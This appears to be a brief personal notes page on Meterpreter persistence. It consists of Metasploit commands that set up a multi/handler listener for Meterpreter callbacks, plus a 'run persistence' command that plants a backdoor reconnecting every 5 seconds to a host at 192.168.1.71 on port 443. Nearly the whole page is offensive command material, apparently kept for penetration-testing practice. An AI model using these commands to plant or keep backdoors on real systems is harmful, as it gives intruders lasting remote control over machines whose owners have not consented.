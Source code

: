 ```yaml
---
title: "Meterpreter Persistence"
date: 2021-10-09T15:26:00-05:00
draft: false
---
```


# Multi-Handler
Handle callbacks from Meterpreters

    use exploit/multi/handler
    set payload ...
    set lport 443
    set lhost ...
    set ExitOnSession false
    exploit -j -z


# Persistence Script
[Offensive Security Post on Persistence Script](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

Still gotta test this one:
    run persistence -U -i 5 -p 443 -r 192.168.1.71

